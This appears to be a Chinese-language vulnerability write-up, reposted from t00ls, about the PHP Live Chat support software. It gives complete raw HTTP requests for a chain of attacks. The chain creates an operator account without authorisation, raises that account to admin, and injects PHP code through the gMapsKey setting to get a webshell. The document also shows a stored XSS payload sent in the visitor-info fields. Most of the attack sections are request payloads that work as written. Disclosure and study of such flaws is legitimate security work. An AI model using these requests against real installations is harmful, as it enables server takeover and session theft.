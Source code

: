 ## PHP-Live-Chat代码审计之组合拳GetShell

PHP Live Chat 全名为 PHP Live Support Chat，官方网站[https://livechat.mirrormx.net/](https://www.t00ls.com/link.html?url=https%3A%2F%2Flivechat.mirrormx.net%2F)，目前有三个版本lite、普通和pro。

## 1.未授权创建账号

```
POST /php/app.php?mobile-operator-create HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 61

roles=OPERATOR&name=mrfool&mail=mrfool%40x.xx&password=111111
```

创建成功并返回账号id

![image-20240529155148187](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405291551257.png)

## 2.添加自身管理员权限

> 登录创建的账号后，修改当前ID权限为ADMIN和OPERATOR

```
POST /php/app.php?mobile-operator-update HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie:PHPSESSID=ikglrk04j3d85ivhrdhme8pv7p;
Connection: close
Content-Length: 26

id=28&roles=ADMIN,OPERATOR
```

![image-20240529155312721](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405291553784.png)

## 3.修改gMapsKey实现GetShell

> 使用ADMIN权限的账号（权限修改后需重新登录获取PHPSESSID）修改gMapsKey从而实现GetShell

```http
POST /php/app.php?config-update-settings HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie:PHPSESSID=s5vj6oib3agt4h9q7phd8akjlp;
Connection: close
Content-Length: 23

gMapsKey=<?phpinfo();?>
```

shell路径为/php/config/app.settings.php

![image-20240529155339378](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405291553428.png)

## XSS

### 1.访客信息上传XSS

> 发送消息时会同步上传访客信息，多个字段可触发，包括但不限于ip、referer、os。

```http
POST /php/app.php?guest-manage-connection HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=nbg5as8lo9scs8ujf6i0d7tr6a; 
Content-Length: 537

lastMessageId=0&info=%7B%22ip%22%3A%22127.0.0.2%3Cimg%20src%3Dx%20onerror%3Dalert(%2Fxss%2F)%3E%22%2C%22referer%22%3A%22%22%2C%22userAgent%22%3A%22%22%2C%22browserName%22%3A%22%22%2C%22browserVersion%22%3A%22%22%2C%22os%22%3A%22%22%2C%22engine%22%3A%22%22%2C%22language%22%3A%22%22%2C%22geoloc%22%3A%7B%22countryCode%22%3A%22US%22%2C%22countryName%22%3A%22United%20States%22%2C%22city%22%3Anull%2C%22zipCode%22%3Anull%2C%22timeZone%22%3Anull%2C%22latitude%22%3A0%2C%22longitude%22%3A0%2C%22metroCode%22%3Anull%2C%22utcOffset%22%3A0%7D%7D
```

外部访客列表未解析

![image-20240529155403787](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405291554834.png)

进入聊天页面触发

![image-20240529155418672](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405291554735.png)



## 漏洞来源

- https://www.t00ls.com/articles-71766.html